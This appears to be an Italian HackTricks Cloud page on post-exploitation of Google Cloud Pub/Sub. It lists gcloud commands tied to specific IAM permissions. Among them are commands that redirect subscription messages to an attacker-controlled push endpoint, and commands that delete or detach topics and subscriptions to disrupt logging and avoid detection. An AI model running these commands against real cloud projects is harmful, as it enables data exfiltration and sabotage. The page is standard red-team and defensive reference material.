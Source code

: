 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Pub/Sub

Per ulteriori informazioni su Pub/Sub controlla la seguente pagina:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Pubblica un messaggio in un argomento, utile per **inviare dati inaspettati** e attivare funzionalità inaspettate o sfruttare vulnerabilità:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Utile per impedire a una sottoscrizione di ricevere messaggi, forse per evitare il rilevamento.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Utile per impedire a una sottoscrizione di ricevere messaggi, forse per evitare il rilevamento.\
È possibile eliminare un argomento anche con le sottoscrizioni ad esso collegate.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Usa questo permesso per aggiornare alcune impostazioni del topic per interromperlo, come `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Concediti il permesso di eseguire uno qualsiasi degli attacchi precedenti.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Ottieni tutti i messaggi in un server web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crea un abbonamento e usalo per **estrarre messaggi**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Eliminare un abbonamento** potrebbe essere utile per interrompere un sistema di elaborazione dei log o qualcosa di simile:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Usa questo permesso per aggiornare alcune impostazioni in modo che i messaggi siano memorizzati in un luogo a cui puoi accedere (URL, tabella Big Query, Bucket) o semplicemente per interromperlo.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Concediti i permessi necessari per eseguire uno qualsiasi degli attacchi precedentemente commentati.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attacca uno schema a un argomento in modo che i messaggi non lo soddisfino e quindi l'argomento venga interrotto.\
Se non ci sono schemi, potresti doverne creare uno.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Questo potrebbe sembrare che eliminando uno schema sarai in grado di inviare messaggi che non soddisfano lo schema. Tuttavia, poiché lo schema verrà eliminato, nessun messaggio entrerà effettivamente all'interno dell'argomento. Quindi questo è **INUTILE**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Concediti i permessi necessari per eseguire uno qualsiasi degli attacchi precedentemente commentati.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Questo creerà uno snapshot di tutti i messaggi non ACK e li rimetterà nell'abbonamento. Non molto utile per un attaccante, ma ecco:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Impara e pratica il hacking su AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking su GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
